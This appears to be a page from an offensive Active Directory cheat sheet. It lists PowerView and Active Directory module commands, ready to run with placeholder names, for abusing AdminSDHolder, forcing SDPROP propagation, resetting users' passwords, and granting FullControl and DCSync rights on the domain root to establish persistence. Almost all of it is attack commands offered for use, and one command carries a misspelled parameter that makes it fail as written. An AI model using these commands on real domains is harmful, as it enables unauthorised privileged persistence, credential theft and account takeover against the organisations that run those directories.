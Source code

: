 #### PowerView
|Command|Description|
|---|---|
|Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName \$samAccountName -Rights All -Verbose|Add FullControl permissions for \$samAccountName using PowerView as DA|
|Add-DomainGroupMember -Identity \$GroupName -Members \$Username -Verbose|Abusing FullControl and adding user to \$GroupName|

#### Retrieving Base ACE to AdminSDHolder
```
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=thing,DC=local")).psbase.ObjectSecurity.sddl
```

#### Triggering SDPROP via PowerView
|Command|Description|
|---|---|
|Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose||
|Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose|For pre-2008|

### ResetPassword permission

#### Active Directory Module
|Command|Description|
|---|---|
|Set-ADAccountPassword -Identity \$Username -NewPassword (ConvertTo-SecureString "\$Password" -AsPlainText -Force) -Verbose|Set \$Username's password|

#### PowerView
|Command|Description|
|---|---|
|Set-DomainUserPassword -Identity \$Username -AccountPassword (ConvertTo-SecureString "\$Password" -AsPlainText -Force) -Verbose|Set \$Username's password|

### Domain Root
- With DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl and/or the ability to run DCSync
- Logging on this object enabled by default

#### Active Directory Module

|Command|Description|
|---|---|
|Set-ADACL -DistinguishedName 'DC=\$Domain,DC=\$Domain' -Principal \$Username -Verbose|Add FullControl rights to the Domain Root Object|
|Set-ADACL -DistinguishedName 'DC=\$Domain,DC=\$Domain' -Principal \$Username -GUIDRight DCSync -Verbose|Add DCSync Rights to User|

#### PowerView

|Command|Description|
|---|---|
|Add-ObjectAcl -TargetDistinguishedName 'DC=\$Domain,DC=\$Domain' -PrincipalSamAccountName \$Username -Rights All -Verbose|Add FullControl rights to Domain Root Object|
|Add-ObjectAcl -TargetDistringuishedName 'DC=\$Domain,DC=\$Domain' -PrincipalSamAccountName \$Username -Rights DCSync -Verbose|Add DCSync Rights to user|
